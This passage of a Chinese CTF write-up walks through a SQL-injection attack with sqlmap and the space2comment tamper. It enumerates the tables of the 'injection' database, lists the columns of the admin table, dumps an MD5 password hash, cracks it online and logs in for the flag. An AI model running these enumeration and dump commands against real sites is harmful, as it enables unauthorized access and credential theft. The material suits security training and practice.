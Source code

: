 我们猜测 `injection` 表，查询 `tables` 

```shell
# sqlmap -r 1.txt --tamper=space2comment -p username -D injection --tables      

web application technology: PHP 5.6.21, Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
[17:31:53] [INFO] fetching tables for database: 'injection'
[17:31:53] [INFO] fetching number of tables for database 'injection'
[17:31:53] [INFO] resumed: 1
[17:31:53] [INFO] resumed: admin
Database: injection
[1 table]
+-------+
| admin |
+-------+

```

查询 `columns`

```shell
# sqlmap -r 1.txt --tamper=space2comment -p username -D injection -T admin --columns

web application technology: PHP 5.6.21, Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
[17:33:26] [INFO] fetching columns for table 'admin' in database 'injection'
[17:33:26] [INFO] resumed: 3
[17:33:26] [INFO] resumed: id
[17:33:26] [INFO] resumed: int(11)
[17:33:26] [INFO] resumed: username
[17:33:26] [INFO] resumed: varchar(255)
[17:33:26] [INFO] resumed: password
[17:33:26] [INFO] resumed: varchar(255)
Database: injection
Table: admin
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int(11)      |
| password | varchar(255) |
| username | varchar(255) |
+----------+--------------+
```

看到有三个字段 `id`, `username` , `password` , 直接 dump 出来

```shell
# sqlmap -r 1.txt --tamper=space2comment -p username -D injection -T admin -C "id,username,password" --dump

Database: injection
Table: admin
[1 entry]
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
| 1  | admin    | 334cfb59c9d74849801d5acdcfdaadc3 |
+----+----------+----------------------------------+
```

我们得到 admin 的密码，看样子是一个 md5 的值，我们上网搜一下，得到结果 `eTAloCrEP`

登录 admin 和密码直接登录，得到 flag

